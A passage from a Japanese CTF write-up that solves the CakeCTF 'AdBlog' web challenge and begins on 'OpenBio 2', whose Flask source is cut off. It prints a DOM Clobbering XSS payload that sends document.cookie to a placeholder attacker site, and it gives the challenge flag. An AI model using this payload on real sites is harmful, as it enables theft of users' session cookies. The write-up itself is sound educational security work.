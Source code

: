 
ついでにads.jsも。

- service/static/js/ads.js

```js:ads.js
const ADS_URL = 'https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js';

async function detectAdBlock(callback) {
    try {
        let res = await fetch(ADS_URL, { method: 'HEAD' });
        return res.status !== 200;
    } catch {
        return true;
    }
}
```

どうやら、`ads.js`でアドブロックが有効かどうかを判定して、有効なら`ad-overlay`を表示するようです。

入力値のcontentはDOMPurifyでサニタイズされているので、通常のXSSはできなそうです。  
ただし、一部のタグは入れられるので、DOM Clobberingして`setTimeout(showOverlay, 1000)`でスクリプトを動作させられれば良さそうです。

ここまではすぐわかったのですが、どんな入力値にすればスクリプトが動作するかわかりませんでした。  
仕方なく`DOM Clobbering setTimeout`でググってみると、以下の記事が見つかりました。

- <https://terjanq.medium.com/clobbering-the-clobbered-vol-2-fb199ad7ec41>

cidを使えば良いようです。（この挙動はなかなか面白いですね。）  
contentに以下の値を入れてブログを投稿し、クローラにアクセスさせるとFLAGが得られました。

```text
<a id=showOverlay href="cid:location='https://<your.site>/'+document.cookie"></a>
```

- FLAG

```text
CakeCTF{setTimeout_3v4lu4t3s_str1ng_4s_a_j4va5cr1pt_c0de}
```

## [web] OpenBio 2

200point / 21solves

[[web] AdBlog](#web-adblog)と似たような問題で、こちらもFLAGがクローラのCookieに格納されており、どうにかしてXSSで窃取するという問題でした。  
ソースコードはほぼ同じようだったので、関係がある部分のみ抜粋します。

- srvice/app.py

```python:app.py
<SNIP>
@app.route('/', methods=['GET', 'POST'])
def index():
    if flask.request.method == 'GET':
        return flask.render_template("index.html")

    err = None
    bio_id = os.urandom(32).hex()
    name = flask.request.form.get('name', 'Anonymous')
    email = flask.request.form.get('email', '')
    bio1 = flask.request.form.get('bio1', '')
    bio2 = flask.request.form.get('bio2', '')
    if len(name) > 20:
        err = "Name is too long"
    elif len(email) > 40:
        err = "Email is too long"
    elif len(bio1) > 1001 or len(bio2) > 1001:
        err = "Bio is too long"

    if err:
```
